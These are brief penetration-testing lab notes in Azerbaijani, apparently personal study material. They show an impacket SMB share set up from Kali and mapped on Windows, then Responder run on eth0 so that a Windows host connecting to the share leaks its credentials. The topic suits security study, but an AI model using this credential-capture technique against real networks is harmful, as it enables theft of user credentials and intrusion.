 ## ILK OLARAQ DAXIL OLURUQ KALI LINUXUMUZDAKI TERMINALA VE TERMINALDA 
 # KALI
    sudo impacket-smbserver -smb2support folder .
## DAHA SONRA WINDOWSDA SEE LESS`DEN (YENI THIS PC'DE YUXARIDA 3 NOQTE VAR ONU CLICKLEMEK) DAHA SONRA ORADAN "MAP NETWORK DRIVE" SECIRIK ELAQENI YARATMAQ UCUN ORADA DEFAULT OLARAQ QEYD EDILIB EYN ZAMANDA DEMEKDE FAYDA VAR 
# -WINDOWS 
    \\IPADRESS\folder
  # DAXIL OLDUQ 

# KALI
    sudo responder -I  eth0 share

# WINDOWS 
 \\IP\SHARE
##
##
##
